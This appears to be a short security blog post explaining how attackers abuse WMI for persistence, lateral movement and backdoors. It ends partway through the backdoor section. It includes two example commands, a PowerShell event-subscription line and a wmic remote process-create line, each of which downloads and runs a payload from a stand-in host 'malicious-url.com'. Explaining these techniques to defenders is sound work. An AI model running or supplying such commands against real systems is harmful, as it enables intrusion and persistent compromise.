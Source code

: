 ```yaml
---
layout: post
title: How the attacker abuses WMI
tags: WMI
math: True
date: 2025-05-02 15:32 +0800
---
```


# WMI Event Subscription (Persistence)

**What it is**: Attackers create WMI event subscriptions to execute malicious actions based on system events, like startup or user logon, ensuring persistence.

**How it works**:

-   Attackers create  `__EventFilter`  and  `__EventConsumer`  to trigger actions when system events occur.

**Example**:

-   An attacker can create an event filter using WMI to execute a PowerShell script upon system startup, maintaining persistence even after reboots.
-   **Command**:
-   `$filter = [wmiclass]"\\localhost\root\cimv2:__EventFilter" $consumer = [wmiclass]"\\localhost\root\cimv2:__EventConsumer" $action = "powershell.exe -ExecutionPolicy Bypass -NoLogo -NoProfile -WindowStyle Hidden -Command Invoke-Expression (New-Object Net.WebClient).DownloadString('http://malicious-url.com/payload.ps1')"`

# WMI Remote Execution (Lateral Movement)

**What it is**: Attackers use WMI to execute commands remotely on other systems, facilitating lateral movement across the network without needing traditional remote access protocols.

**How it works**:

-   Tools like  `wmic`  or PowerShell’s  `Invoke-WmiMethod`  execute commands remotely on other systems within the network.

**Example**:

-   An attacker uses  `wmic`  to execute a command on a remote system that downloads and executes a malicious payload.
-   **Command**:

`wmic /node:TargetSystem process call create "powershell.exe -NoProfile -ExecutionPolicy Bypass -Command Invoke-WebRequest 'http://malicious-url.com/payload.exe' -OutFile 'C:\Windows\Temp\payload.exe'; Start-Process 'C:\Windows\Temp\payload.exe'`

# WMI as a Backdoor (Persistence)

**What it is**: Attackers install a backdoor via WMI to maintain control over the compromised system even after reboots.
